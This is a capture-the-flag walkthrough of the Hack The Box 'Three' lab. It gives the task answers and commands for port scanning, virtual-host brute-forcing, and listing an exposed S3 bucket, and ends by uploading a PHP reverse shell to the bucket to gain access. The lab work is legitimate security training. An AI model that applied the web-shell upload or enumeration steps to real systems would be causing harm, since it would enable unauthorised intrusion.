 ```yaml
---
title: Walkthrough - Three
published: true
---
```


Tags: Security, AWS, DNS, VHOST.
Description: Hackthebox boot2root machine.
Difficulty: Very-Easy

* * *

## Task 1 How many TCP ports are open?

- `sudo nmap -Pn -sS 10.129.77.119 -p- -vvv`

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

* * *

## Task 2 What is the domain of the email address provided in the "Contact" section of the website?

- `thetoppers.htb`

* * *

## Task 3 In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

- `/etc/hosts`

* * *

## Task 4 Which sub-domain is discovered during further enumeration?

Add thetopppers.htb to your /etc/hosts file. After adding we can scan for sub-somains.

* * *

## Task 5 Which service is running on the discovered sub-domain?

We have a hint that the sub-domain is two characters here. I dont know of any 2 char or digit wordlists so goign to make one with `crunch 1 2 0123456789abcdefghijklmnopqrstuvqxyz -o dnslist.txt`. DNS with gobuster doesnt work for this list but using gobuster vhost does.

- `gobuster vhost -u thetoppers.htb -t 100 -w dnslist.txt`
- `amazon s3`

* * *

## Task 6 Which command line utility can be used to interact with the service running on the discovered sub-domain?

- `awscli`

* * *

## Task 7 Which command is used to set up the AWS CLI installation?

- `aws configure`

* * *

## Task 8 What is the command used by the above utility to list all of the S3 buckets?

- `aws s3 ls`

* * *

## Task 9 This server is configured to run files written in what web scripting language?

- `php`

* * *

## Submit root flag 

With this information we can now connect to the sevrer. Configure with `aws configure` and use temp parameters.

We can use ls to list the s3 endpoints the server is hosting

- `aws --endpoint=http://s3.thetoppers.htb ls`

Now we can list objects the specific buckets contain.

- `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

Seeing as this bucket is available for us to visit and powered by php we can then copy a reverse shell to the server and get access.

- `aws --endpoint=http://s3.thetoppers.htb s3 cp php-reverse-shell.php s3://thetoppers.htb/images/`

![0xskar](/assets/three01.png)

* * *